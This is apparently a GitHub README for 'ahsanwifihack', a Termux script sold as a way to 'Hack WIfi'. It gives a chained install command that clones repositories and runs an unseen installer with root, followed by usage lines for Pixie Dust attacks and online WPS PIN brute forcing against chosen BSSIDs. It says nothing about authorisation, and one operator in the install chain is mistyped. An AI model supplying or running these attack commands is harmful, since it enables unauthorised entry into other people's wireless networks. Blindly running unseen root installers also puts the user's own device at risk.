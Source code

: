 ## ahsanwifihack
### Hack WIfi Using Termux! (Requires Root)



### Installation :

```bash
pkg update && pkg upgrade && pkg install git python && git clone https://github.com/MDAhsanullah/ahsanwifihackmain && cd ahsanwifihackmain && python Installer.py && apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/MDAhsanullah/ahsanwifihack && cd ahsanwifihack && ls $$ sudo python ahsanwifihack.py -i wlan0 -K
```

#### Example : `sudo python ahsanwifihack/ahsanwifihack.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python ahsanwifihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python ahsanwifihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python ahsanwifihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
